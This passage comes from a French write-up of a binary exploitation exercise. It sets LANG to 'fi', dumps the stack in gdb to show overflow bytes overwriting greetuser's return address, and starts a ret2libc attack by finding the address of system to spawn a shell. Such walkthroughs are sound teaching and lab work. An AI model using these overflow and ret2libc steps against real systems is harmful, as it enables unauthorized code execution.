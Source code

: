 
Puisque `memcmp` ne compare que 2 octets, il suffit simplement de changer notre variable d'environnement `LANG` à `fi`.
```
> export LANG=fi
```
Sans changer nos arguments, imprimons à nouveau la `stack` après `strcat` pour vérifier que `_language` a été modifié correctement.
```
x/50wx $esp
0xbffff5d0:	0xbffff5e0	0xbffff630	0x00000001	0x00000000
            ^           ^
            adresse de  adresse de copie
            copie du    du premier strcpy
            strcat
0xbffff5e0:	0xc3767948	0x20a4c3a4	0x69a4c370	0xc3a4c376
            ^
            Concaténation de "Hyvää päivää " et
            du premier argument.
0xbffff5f0:	0x414120a4	0x41414141	0x41414141	0x41414141
0xbffff600:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff610:	0x41414141	0x41414141	0x42424141	0x42424242
0xbffff620:	0x42424242	0x42424242	0x42424242	0x42424242
                                                ^
                                                adresse de retour
                                                de greetuser
0xbffff630:	0x42424242	0x42424242	0x41004242	0x41414141
0xbffff640:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff650:	0x41414141	0x41414141	0x42424242	0x42424242
0xbffff660:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff670:	0x42424242	0x42424242	0x00000000	0xb7e5ec73
0xbffff680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff690:	0x41414141	0x41414141
```
On remarque que c'est à présent la chaîne `Hyvää päivää ` qui est utilisé pour notre concaténation.

> On ne dénombre visuellement que `13` caractères dans la chaîne `Hyvää päivää ` alors qu'on en observe `18` en imprimant la `stack`. C'est parce que les caractères `ä` sont des caractères Unicode qui ont une taille de `2` octets au lieu de `1`.

On peut également remarquer que `eip` a été completement écrasée.

Pour lancer un `shell`, nous allons utiliser la faille `Ret2libc` qui nous évite de stocker un `shell code` en mémoire. Nous aurons donc besoin au préalable de connaître l'adresse de la fonction `system` ainsi que de `"/bin/sh"`.

---

**Adresse de `system`**
```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
L'adresse de `system` est `0xb7e6b060`.

